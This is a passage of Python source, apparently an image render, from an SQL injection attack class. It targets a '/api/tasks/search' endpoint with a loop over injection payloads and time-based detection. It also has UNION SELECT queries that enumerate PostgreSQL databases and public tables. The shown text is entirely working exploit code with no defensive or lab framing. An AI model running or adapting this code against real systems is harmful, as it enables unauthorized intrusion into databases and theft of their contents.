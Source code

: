 ```python
        
        for payload in payloads:
            try:
                response = self.session.get(
                    f"{self.base_url}/api/tasks/search",
                    params={'query': payload},
                    timeout=10
                )
                
                if response.status_code == 200:
                    print(f"✓ Injection successful with payload: {payload}")
                    return True
                    
            except requests.exceptions.Timeout:
                print(f"✓ Time-based injection detected with payload: {payload}")
                return True
            except Exception as e:
                print(f"✗ Payload failed: {payload} - {e}")
        
        return False
    
    def enumerate_databases(self):
        """Enumerate available databases"""
        payload = "' UNION SELECT datname FROM pg_database--"
        
        try:
            response = self.session.get(
                f"{self.base_url}/api/tasks/search",
                params={'query': payload}
            )
            
            if response.status_code == 200:
                databases = [item.get('datname') for item in response.json() if 'datname' in item]
                print(f"✓ Found databases: {databases}")
                return databases
                
        except Exception as e:
            print(f"✗ Database enumeration failed: {e}")
        
        return []
    
    def enumerate_tables(self):
        """Enumerate tables in current database"""
        payload = "' UNION SELECT table_name FROM information_schema.tables WHERE table_schema='public'--"
        
        try:
            response = self.session.get(
                f"{self.base_url}/api/tasks/search",
                params={'query': payload}
            )
            
            if response.status_code == 200:
                tables = [item.get('table_name') for item in response.json() if 'table_name' in item]
                print(f"✓ Found tables: {tables}")
                return tables
                
        except Exception as e:
            print(f"✗ Table enumeration failed: {e}")
        
        return []
    
```